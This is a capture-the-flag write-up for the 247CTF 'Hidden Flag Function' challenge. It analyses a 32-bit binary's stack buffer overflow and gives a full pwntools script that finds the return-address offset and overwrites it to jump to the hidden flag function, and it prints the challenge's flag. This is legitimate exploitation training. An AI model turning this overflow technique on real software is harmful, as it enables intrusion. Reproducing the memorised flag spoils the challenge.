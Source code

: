 ```yaml
---
slug: hidden_flag_function
title: Hidden Flag Function
authors: [nguyen]
tags: [CTF, Binary Exploitation, 247ctf]
---
```


247CTF: Hidden Flag Function

<!--truncate-->

## The Challenge

This challenge can be found [here](https://247ctf.com/dashboard).

Given an application, the goal is to gain control of the application flow and gain access to the hidden flag function.

## Analysis

I plugged the provided program into Ghidra and looked at the function call graph. I started from _start() and then looked into the main function.

![Main function](/img/hidden_flag_function_main.png)

The function `chall` takes user input by using scanf and stores it into a 68 byte buffer before returning. After some more digging, I find a function called flag.

![Flag function](/img/hidden_flag_function_flag.png)

The scanf command from chall was a point of interest as I would have been able to overwrite the address stored in the return from function. I wanted the return to execute the flag function and get the flag.

I ran the `file` command on the executable and found that it was 32 bit little endian. It did not state that the program was a position independent executable. I needed to install i386 architecture as I could not run it natively on my ubuntu 64 bit system.

```bash
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386
```

I also set core_pattern in /proc/sys/kernel to output coredumps to a file named core. This is needed in order to help with determining offsets within the executable.

## The Solve

```python
from pwn import *

exe = ELF("./hidden_flag_function")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

CYCLIC_BYTES = 1000

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    if args.get('REMOTE'):
        io = remote('40b14b3351586e58.247ctf.com', 50175)

    else:
        io = process([exe.path])

    return io


def main():
    '''Return the flag.
    '''

    offset = get_offset()
    send_payload(offset)


def get_offset():
    '''Get the offset'''

    if args.get('REMOTE'):
        return 76

    with conn() as io:
        pat = cyclic(CYCLIC_BYTES, n=4)
        io.sendlineafter(b"What do you have to say?", pat)
        # Program will crash and output coredump
        io.wait()
        core = io.corefile
        offset_addr = core.fault_addr
        log.info(f"ADDR:{offset_addr}")

        offset = cyclic_find(offset_addr, n=4)
        log.info(f"OFFSET:{offset}")
        return offset


def send_payload(offset):
    '''Send offset payload with flag function address'''
    with conn() as io:
        flag_func = p32(exe.symbols['flag'], endian='little')
        log.info(f"{flag_func}")
        payload = fit({
            offset:flag_func
        })

        io.sendlineafter(b"What do you have to say?", payload)
        io.interactive()

if __name__ == '__main__':
    main()
```

First, I wanted to determine where the offset of scanf within the chall function was within the program. With the script above, I sent 1000 bytes using the cyclic pattern and attempted to crash the program. I parse the coredump for the address that caused the executable to crash. The executable will have crashed because chall's return address will have been overwritten. Chall's function stack is 76 bytes, consisting of the 68 byte array, the 4 byte FILE pointer, and the 4 byte stack pointer. The return address will be overwritten to be a subsequence of the pattern I sent with the usage of `cyclic`. Using `cyclic_find`, we find that the offset is 76 which matches what was expected.

Now that I had the offset, I needed to determine the flag function's address. This can be done by looking up the flag symbol with pwnlib.elf.elf. The address obtained is packed in little endian with the offset and sent.

Sending this payload to the server gets me the flag '247CTF{b1c2cb7d5a43939f8dc73369ec2dd59d}'.
